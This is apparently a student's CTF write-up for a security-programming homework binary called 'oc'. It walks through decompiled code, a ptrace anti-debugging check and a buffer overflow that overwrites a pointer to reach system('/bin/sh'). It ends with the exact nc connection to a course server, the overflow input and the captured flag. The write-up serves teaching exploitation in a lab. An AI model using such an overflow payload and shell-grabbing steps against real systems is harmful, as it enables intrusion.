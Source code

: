 ============
 oc Writeup
============

:date: 2014-10-03 02:04
:modified: 2014-10-14 21:50
:tags: secprog, ctf, writeup
:category: memo
:slug: oc-writeup
:about_author: Bug generator
:email: starbops@gmail.com
:authors: Zespre Schmidt
:summary: Security Programming Homework 1-3

Using IDA Pro's impressive F5 decompilation, we discover sub_80485D7() is the
most interesting part

.. code-block:: c

    ......
    v6 = ptrace(0, 0, 1, 0);
    ......
    if ( a1 != 14 )
    {
        if ( a1 != 12 )
        {
            dword_804A044 = loc_8048707;
            src = loc_8048720;
            v4 = strlen(*(const char **)(a2 + 28));
            strncpy(dest, *(const char **)(a2 + 28), v4);
            if ( v6 >= 0 )
                memcpy(dword_804A044, src, src - dword_804A044);
        }
        puts("uhhh....it's something wrong.");
        exit(0);
    }
    system("/bin/sh");
    return 0;
    ......

The program will copy the character(s) after 7th (including #7) character of a2
to dest. But dest is not used anymore (suspicious). Just keep in mind.

According to the text file (linux-anti-debugging.txt) from the hint

.. code-block:: c

    int main()
    {
        if (ptrace(PTRACE_TRACEME, 0, 1, 0) < 0) {
            printf("DEBUGGING... Bye\n");
            return 1;
        }
        printf("Hello\n");
        return 0;
    }

``ptrace()`` will return positive integer while the exectuable is not being
debugged. So the program oc will show "The flag is Support for universal
suffrage in Hong Kong just kidding. :p" while not being debugged and show
"uhhh....it's something wrong." while being debugged.

Because dest can only contain 16 char, more than 16 char being copied to dest
will cause the variable, src, being overwritten

.. code-block:: nasm

    0804A048    ; char dest[16]
    0804A048    dest        db 10h dup(?)
    0804A058    ; void *src
    0804A058    src         dd ?

So our objective is to jump to 0x08048731, i.e. ``system("/bin/sh")``. By
observation, we only need to overwritten 0x31. 0x31 is actually ASCII "1". In
conclusion, we need 7 candidates as input, and the 7th candidate must be length
of 17, the last character must be "1"

Exploitation
============

1. ``nc 140.113.208.235 10002``
2. input ``1 1 1 1 1 1 11111111111111111``
3. got shell
4. ``cat flag``

Capture The Flag
================

The flag is ``SECPROC{0ccupy_C3ntr4l_w1th_L0v3_4nd_P34c3}``

